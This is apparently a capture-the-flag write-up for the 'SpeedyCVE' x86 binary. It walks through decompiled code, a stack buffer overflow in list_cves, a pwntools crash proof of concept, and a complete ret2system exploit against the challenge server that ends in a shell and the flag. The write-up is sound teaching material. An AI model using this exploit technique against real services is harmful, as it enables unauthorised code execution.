# SpeedyCVE

### System (x86)

SpeedyCVE is a simple service to manage CVE assignments. The challenge provides the [binary](speedycve_50f7a49c27ffee20516a340b6d84ac72) for the service. The menu provides the user with two options: assign a CVE, and list CVEs.

![speedycve_1](speedycve_1.png)



When we run the program, we see the below menu.

```
CVE Numbering Authority
1. Assign a CVE
2. List CVEs
3. Quit
```

A CVE has three fields: CVE ID, product, and version.

```
CVEID? 2017-0000
PRODUCT? Vendor A
VERSION? Product B
```

The list CVE option will print all of the assigned CVEs sorted by product and version.

```
[2017-0000] Vendor A - Product B
```

Opening the binary in IDA Pro, the first thing we notice is that symbols are included. 

```c++
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      v3 = prompt(&s);
      if ( v3 != 2 )
        break;
      list_cves();
    }
    if ( v3 == 3 )
      break;
    if ( v3 == 1 )
      add_cve();
  }
```

Looking at ```list_cves```, we notice two things:

  - A string that indicates a buffer overflow: ```logger --id %d Buffer overflow in list_cves```
  - A call to ```system```

This tells us that we should probably focus on this function.



#### Vulnerability #1 (Stack Buffer Overflow)

The Hex-Rays output for the function:

```c++
int list_cves()
{
  size_t v0; // ebx
  unsigned int length; // esi
  __pid_t v2; // eax
  char buf[1036]; // [esp+10h] [ebp-40Ch]

  v0 = 0;
  length = 0;
  while ( v0 < cvedb_len )
  {
    length += sprintf(&buf[length], "[%s] %s - %s\n", 160 * v0 + 0x804A080, 160 * v0 + 0x804A0A0, 160 * v0 + 0x804A0E0);
    ++v0;
  }
  if ( length <= 0x3FF )
    return printf("%s", buf);
  printf("Result too long! Reporting to the administrator.\n");
  v2 = getpid();
  sprintf(buf, "logger --id %d Buffer overflow in list_cves", v2);
  return system(buf);
}
```

We can see from both the length check and the size of the stack buffer that we need to write more than 1024 bytes to overflow the buffer. The loop appends a line with the CVE id, product, and version to the buffer for each CVE. 

If we look at the ```add_cve``` function, we can note the maximum size of each field:

```C++
  if ( cvedb_len == 8 )
    return printf("Maximum number of CVEs!\n");
  // ...
  printf("CVEID? ");
  readline((char *)(160 * v0 + 134520960), 32);
  printf("PRODUCT? ");
  readline((char *)(32 * (v2 + v0) + 134520992), 64);
  printf("VERSION? ");
  readline((char *)(32 * (v2 + v0) + 134521056), 64);
```

If we do the math, ```8 * (7 + 31 + 63 + 63)```, we will see that we can write up to 1312 bytes to the stack buffer, which is more than enough to overwrite the return address.

We write a simple POC using pwntools to cause a crash:

```python
from pwn import *
r = gdb.debug('./speedycve')
for _ in xrange(8):
    r.sendlineafter('3.', '1')
    r.sendline('A' * 31)
    r.sendline('B' * 63)
    r.sendline('C' * 63)
r.sendlineafter('3.', '2')
r.interactive()
```

When GDB crashes, it tells us that eip is 0x42424242 and the stack contents are:

```
(gdb) x/32xw $esp
0xfffaad50:	0x42424242	0x42424242	0x42424242	0x42424242
0xfffaad60:	0x42424242	0x42424242	0x42424242	0x42424242
0xfffaad70:	0x42424242	0x42424242	0x202d2042	0x43434343
```

This tells that we can control eip by changing line 6 of our POC so that we have 63-41-4=18 bytes followed by eip, and then pad to 63 so we don't change the total length:

```python
from pwn import *
r = gdb.debug('./speedycve')
for _ in xrange(8):
    r.sendlineafter('3.', '1')
    r.sendline('A' * 31)
    r.sendline(('B' * 18 + p32(eip)).ljust(63))
    r.sendline('C' * 63)
r.sendlineafter('3.', '2')
r.interactive()
```



#### Exploitation

Once we can control the return address, we need to read the flag. Thankfully, the ```system``` function is used in the binary, so we can return to the system function.

For the argument to system , we need the address of a string we control. Since the CVE data is located in the *.bss* section, we know the address of the CVE ids, vendors, and products.

Putting everything together, we can write a simple exploit using pwntools:

```python
from pwn import *
r = remote('speedhack.theori.io', 31337)

eip = 0x8048530
arg = 0x804a0a0 # first CVE id

for _ in xrange(8):
    r.sendlineafter('3.', '1')
    r.sendline('/bin/sh; '.ljust(31))
    r.sendline(('B' * 18 + p32(eip) + p32(0x41414141) + p32(arg)).ljust(63))
    r.sendline('C' * 63)
r.sendlineafter('3.', '2')
r.interactive()
```
```
[+] Opening connection to speedhack.theori.io on port 31337: Done
[*] Switching to interactive mode
 Quit
Result too long! Reporting to the administrator.
$ id
uid=106(speedycve) gid=65534(nogroup) groups=65534(nogroup)
$ cat flag
can_i_get_a_CVE_for_this?
```

